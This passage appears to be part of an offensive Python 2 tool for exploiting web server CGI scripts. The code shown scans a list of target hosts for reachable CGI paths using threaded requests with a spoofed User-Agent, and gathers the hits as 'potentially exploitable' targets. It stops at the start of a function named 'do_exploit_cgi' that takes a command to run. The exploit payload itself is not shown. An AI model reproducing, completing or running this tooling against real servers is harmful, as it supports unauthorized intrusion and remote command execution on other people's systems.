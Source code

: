 ```python
    cgi_num = len(cgi_list)
    q = Queue.Queue()
    threads = []
    
    for host in host_target_list:
        print "[+] Looking for vulnerabilities on %s:%s" % (host, port) 
        cgi_index = 0
        for cgi in cgi_list:
            cgi_index += 1

            # Show a progress bar unless verbose or there is only 1 cgi 
            if not verbose and cgi_num > 1: print_progress(cgi_num, cgi_index) 

            try:
                req = urllib2.Request(protocol + "://" + host + ":" + port + cgi)
                url = req.get_full_url()
                if proxy:
                    req.set_proxy(proxy, "http")    
                
                # Pretend not to be Python for no particular reason
                req.add_header("User-Agent", user_agent)

                # Set the host header correctly (Python includes :port)
                req.add_header("Host", host)
                
                thread_pool.acquire()
                
                # Start a thread for each CGI in cgi_list
                if verbose: print "[I] Starting thread %i" % cgi_index
                t = threading.Thread(target = do_check_cgi, args = (req, q, verbose))
                t.start()
                threads.append(t)
            except Exception as e: 
                if verbose: print "[I] %s - %s" % (url, e) 
            finally:
                pass

        # Wait for all the threads to finish before moving on    
        for thread in threads:
            thread.join()
    
        # Pop any results from the Queue and add them to the list of potentially 
        # exploitable urls (exploit_targets) before returning that list
        while not q.empty():
            exploit_targets.append(q.get())
    
    if verbose: print "[+] Finished host scan"
    return exploit_targets

def do_check_cgi(req, q, verbose):
    """ Worker thread for scan_hosts to check if url is reachable
    """

    try:
        if urllib2.urlopen(req, None, TIMEOUT).getcode() == 200:
            q.put(req.get_full_url())
    except Exception as e:
        if verbose: print "[I] %s for %s" % (e, req.get_full_url()) 
    finally:
        thread_pool.release()

def do_exploit_cgi(proxy, target_list, command, verbose):
    """ For urls identified as potentially exploitable attempt to exploit
```